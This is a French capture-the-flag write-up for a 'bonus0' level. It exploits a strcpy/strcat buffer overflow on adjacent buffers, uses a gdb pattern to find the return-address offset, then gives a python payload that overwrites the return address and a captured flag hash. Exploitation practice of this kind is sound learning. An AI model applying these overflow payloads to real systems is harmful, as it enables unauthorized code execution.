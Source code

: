 # Bonus 0
```bash
su bonus0 #f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

## Steps
Le programe prends 2 gets en entree mais verifie la taille des strings copiees. Seulement ici, un appel a strcpy et surtout `strcat` nous permet d'exploiter une faille. Les 2 buffers sont stockes a cote. En ometant un \0 sur le premier buffer, nous pouvons faire penser au strcat que la premiere str est en realite plus longue. 
Pour passer au deuxieme read, on injectera 4096 caracteres. Il ne faut pas oublier de mettre le `\n` et ne pas mettre de `\0`.
 On utilisera un overflow pattern en deuxieme argument pour reperer l'adresse de RET.

```bash
(gdb) r
Starting program: /home/user/bonus0/bonus0
 -
01234567890123456789
 -
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
01234567890123456789Aa0Aa1Aa2Aa3Aa4Aa5Aa�� Aa0Aa1Aa2Aa3Aa4Aa5Aa��

Program received signal SIGSEGV, Segmentation fault.
0x41336141 in ?? ()
```

On est donc a l'offset 9, il nous suffit rde remplacer cet offset par une addresse de retour

```bash
python -c "print '0' *4095 + '\n' + 'Aa0Aa1Aa2' + '\xbf\xff\xf8\xa6'[::-1] + 'a4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag'"> /tmp/b0.
cat /tmp/b0 - | ./bonus0
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```
